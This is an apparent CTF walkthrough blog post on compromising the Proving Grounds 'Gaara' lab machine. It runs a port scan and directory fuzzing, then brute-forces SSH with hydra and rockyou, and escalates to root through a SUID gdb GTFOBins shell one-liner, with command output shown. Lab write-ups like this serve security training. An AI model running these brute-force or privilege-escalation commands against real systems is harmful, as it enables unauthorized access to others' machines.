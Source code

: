 ```yaml
---
title: "Proving grounds Play: Gaara"
layout: post
date: 2023-09-29 02:00
categories: writeup
---
```


Proving grounds Play - Gaara CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp - open  http - Apache httpd 2.4.38 ((Debian))

![img](/assets/images/CTF/Proving_Grounds/Gaara/web.png)

### Directory Fuzzing

```text
http://192.168.198.142/Cryoserver

/Temari
/Kazekage
/iamGaara
```

The directory `/iamGaara` has a base58 encoded secret in one of the paragraph.

![img](/assets/images/CTF/Proving_Grounds/Gaara/secret.png)

### Decoding secret

![img](/assets/images/CTF/Proving_Grounds/Gaara/decode.png)

**SSH Credentials**: `gaara:ismyname`

Unfortunately the password didn't worked, so perform brtue forcing the password using hydra.

## SSH Brute Forcing

```sh
naveenj@hackerspace:|21:26|~/pg-play/Gaara$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt -t 40 ssh://192.168.198.142
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-28 21:26:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344399 login tries (l:1/p:14344399), ~358610 tries per task
[DATA] attacking ssh://192.168.198.142:22/
[22][ssh] host: 192.168.198.142   login: gaara   password: iloveyou2 #password
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 18 final worker threads did not complete until end.
[ERROR] 18 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-28 21:27:41
```

SSH to the user gaara using the cracked password to obtain initial foothold.

## Privilege Escalation

Enumerate SUID binaries, incase if the SUID binaries enumerated are not clear if it's vulnerable or not use the below codes to automate.

- [GitHub - Anon-Exploiter/SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
- [GitHub - etc5had0w/suider/blob/main/suider.sh](https://github.com/etc5had0w/suider/blob/main/suider.sh)

### SUIDs

```sh
gaara@Gaara:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb    #vulnerable
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

The SUID binary `gdb` is vulnerable for exploitation, search for exploit on GTFO bins.

### GTFO Bins Exploit

If the binary has the SUID bit set, it does not drop the elevated  privileges and may be abused to access the file system, escalate or  maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
This example creates a local SUID copy of the binary and runs it to  maintain elevated privileges. To interact with an existing SUID binary  skip the first command and run the program using its original path. This requires that GDB is compiled with Python support.

```sh
sudo install -m =xs $(which gdb) .
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

**Root Obtained**

```sh
gaara@Gaara:/tmp$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# whoami
root
```


Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).